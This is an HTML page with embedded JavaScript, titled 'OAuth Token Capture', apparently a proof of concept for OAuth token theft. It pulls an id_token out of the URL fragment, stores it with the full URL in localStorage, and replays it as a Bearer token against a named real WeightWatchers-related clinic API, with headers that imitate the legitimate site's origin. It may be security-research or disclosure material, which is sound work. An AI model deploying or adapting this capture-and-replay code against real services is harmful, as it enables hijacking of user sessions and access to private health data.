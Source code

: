 <!DOCTYPE html>
<html>
<head>
  <title>OAuth Token Capture</title>
</head>
<body>
  <h1>OAuth Token Capture (Static GitHub Page)</h1>
  <p id="status">Waiting for token...</p>
  <textarea id="log" rows="20" cols="100" readonly></textarea>
  <button onclick="makeAuthorizedRequest()">🔍 Send Authenticated Request</button>
  <iframe id="responseFrame" style="width:100%; height:300px; border:1px solid #ccc; margin-top:1em;"></iframe>

  <script>
    const hash = window.location.hash.substring(1);
    const params = new URLSearchParams(hash);
    const id_token = params.get("id_token");

    const logBox = document.getElementById("log");
    const status = document.getElementById("status");

    if (id_token) {
      const time = new Date().toISOString();
      const entry = `--- ${time} ---\nToken: ${id_token}\nURL: ${window.location.href}\n\n`;

      const existing = localStorage.getItem("token_logs") || "";
      const updated = existing + entry;
      localStorage.setItem("token_logs", updated);

      logBox.value = updated;
      status.textContent = "✅ Token captured and saved in your browser (localStorage).";
    } else {
      status.textContent = "⚠️ No id_token found in URL fragment.";
      logBox.value = localStorage.getItem("token_logs") || "";
    }

    function makeAuthorizedRequest() {
      if (!id_token) return alert("No token found to send");

      fetch("https://ww-integration-api.joinsequence.com/api/v1/ww/clinic-tab-init?locale=en-US&path=%2F", {
        method: "GET",
        headers: {
          "Authorization": `Bearer ${id_token}`,
          "Accept": "application/json, text/plain, */*",
          "Ww-Ssid": "en-US-1466641065.1750185",
          "Ww-Client": "rsw",
          "Origin": "https://www.weightwatchers.com",
          "Referer": "https://www.weightwatchers.com/"
        }
      })
      .then(response => response.text())
      .then(data => {
        const frame = document.getElementById("responseFrame");
        frame.srcdoc = `<pre>${data.replace(/</g, '&lt;')}</pre>`;
      })
      .catch(err => alert("Error making request: " + err));
    }
  </script>
</body>
</html>

